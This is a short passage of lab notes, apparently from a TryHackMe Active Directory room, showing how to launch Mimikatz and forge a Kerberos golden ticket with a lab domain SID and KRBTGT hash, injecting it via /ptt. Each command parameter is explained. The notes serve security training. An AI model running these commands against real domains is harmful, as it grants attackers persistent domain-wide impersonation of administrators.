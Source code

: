 <figure><img src="../../.gitbook/assets/image (5) (1) (4).png" alt=""><figcaption></figcaption></figure>

**Victim(powershell)**

```
exit
C:\Tools\mimikatz_trunk\Win32\mimikatz.exe
```

Once Mimikatz is loaded, perform the following to generate a golden ticket.

Parameters explained:

* /admin - The username we want to impersonate. This does not have to be a valid user.
* /domain - The FQDN of the domain we want to generate the ticket for.
* /id -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.
* /sid -The SID of the domain we want to generate the ticket for.
* /krbtgt -The NTLM hash of the KRBTGT account.
* /endin - The ticket lifetime. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 10 hours (600 minutes)
* /renewmax -The maximum ticket lifetime with renewal. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 7 days (10080 minutes)
* /ptt - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.

**Victim(mimikatz)**

```
kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:S-1-5-21-3885271727-2693558621-2658995185 /krbtgt:16f9af38fca3ada405386b3b57366082 /endin:600 /renewmax:10080 /ptt
```
